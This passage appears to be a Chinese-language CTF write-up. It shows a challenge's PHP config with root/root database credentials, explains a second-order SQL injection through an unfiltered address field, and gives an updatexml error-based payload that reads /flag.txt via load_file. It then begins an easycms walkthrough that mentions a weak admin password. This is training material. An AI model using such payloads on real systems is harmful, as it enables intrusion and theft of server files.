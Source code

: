 


config.php:



```php
<?php

ini_set("open_basedir", getcwd() . ":/etc:/tmp");

$DATABASE = array(

    "host" => "127.0.0.1",
    "username" => "root",
    "password" => "root",
    "dbname" =>"ctfusers"
);

$db = new mysqli($DATABASE['host'],$DATABASE['username'],$DATABASE['password'],$DATABASE['dbname']);
```



{% endtabs %}

审计可以发现, 网站对 user_name 和 phone 的过滤比较严格, 但是对地址( `$address`) 几乎没有处理, 而更新信息的时候, 地址不加审查的直接拼接到更新语句中, 显然是存在二次注入:

> 信息差: 此题官方说明了 flag 在根目录而不是数据库中, ~真坑~

#### 二次注入

构造 payload:

```
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)#
```

用 3 个订单分别修改一次, 分别差子串的起始位置为 1, 20, 40, 拼起来得到flag: `flag{0b769d97-5b7d-4a9f-8e2f-4e3ba84fbb77}`

> 用 3 个订单是因为每次报错注入的时候其实都把这个订单给打爆了, 要另开一个, 重复改是无效的;

## [GKCTF 2021]easycms

### 题解

看了眼提示, 后台密码是五位弱口令;

打开网站是一个 CMS 界面, 点击登录按钮没有反应, 可能是存在管理员专用的登录页面。
